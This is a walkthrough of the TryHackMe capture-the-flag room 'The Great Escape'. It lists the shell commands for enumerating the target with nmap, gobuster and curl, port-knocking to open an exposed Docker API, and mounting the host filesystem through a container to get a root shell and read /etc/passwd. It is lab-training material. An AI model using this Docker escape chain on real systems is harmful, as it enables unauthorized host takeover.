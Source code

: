 # The Great Escape

**Room Link:** [https://tryhackme.com/r/room/thegreatescape](https://tryhackme.com/r/room/thegreatescape)



## Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP <a href="#tcp-8080-http" id="tcp-8080-http"></a>

Its returning too much from 200 so we need to filter it out

**Kali**

```
gobuster -e dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Had to add .well-known to the wordlist, wasn't in any of Tryhackme's default wordlists

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirb/common.txt  --wildcard  -s"204,301,302,307,401,403"
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

None of this was working, try later.

**Kali**

```
dirb http://$VICTIM/.well-known -X .txt
```

**Kali**

```
curl http://$VICTIM/.well-known/security.txt
```

**Kali**

```
curl http://$VICTIM/api/fl46
```

**Kali**

```
curl http://$VICTIM/robots.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (862).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (865).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock $VICTIM 42 1337 10420 6969 63000
nmap $VICTIM -p 2375
```

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/docker/daemon.json
```

**daemon.json**

```
{
  "insecure-registries" : ["10.10.90.88:2375"]
}
```

**Kali**

```
sudo systemctl stop docker
```

Wait 30 seconds

**Kali**

```
sudo systemctl start docker
```

**Kali**

```
docker -H $VICTIM:2375 images
docker -H $VICTIM:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>






